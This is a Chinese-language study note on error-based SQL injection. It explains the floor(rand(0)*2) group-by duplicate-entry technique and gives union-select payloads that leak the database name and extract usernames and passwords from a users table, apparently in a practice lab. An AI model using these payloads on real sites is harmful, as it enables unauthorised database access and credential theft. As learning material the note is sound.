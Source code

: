 ## 报错注入
相关函数：

1. rand() : 0~1随机小数
2. floor() : 向下取整
3. ceiling()
4. concat_ws() : 将括号内的数据用第一个字段连接起来 concatenate with separator
5. group by 分组语句
6. as 别名
7. count() :  count(column_name) 统计 column_name 中非 NULL 值的行，count(*) 则统计指定表中所有行的数量
8. limit 显示指定行数 limit 0,1 表示限制从第 0 项开始取 1 项



```sql
union select 1,count(*),concat_ws('-',(select database()), floor(rand(0)*2)) as a from information_schema.tables group by a
```

from information_schema.tables 为了有足够的列数

count(*) 用来统计个数

concat_ws() 用 - 将 select database() 的返回值和 floor(rand(0)*2) 的值连接起来

每一个 concat_ws(...) 都重命名为 a 并按照它进行分组，于是会出现两种键

database_name-0 和 database_name-1

该手法成功的关键在于：给它分组时算了一遍 rand , 计数时又要算一遍 rand , 就有可能出现重复定义键名的错误，从而产生报错 duplicate entry，返回我们想要看到的信息

但是，最后一步挂掉了：

```sql
union select 1,count(*),concat_ws('-',(
select group_concat(username,"-",password) from users
), floor(rand(0)*2)) as a from information_schema.tables group by a
```

页面只显示：You are in........    这是怎么回事呢？

太长了，它就不显示了

可以用 substring 解决

也可以用 concat 加上 limit 限制来解决

```sql
union select 1,count(*),concat_ws('-',(
select concat(username,"-",password) from users limit 0,1
), floor(rand(0)*2)) as a from information_schema.tables group by a
```

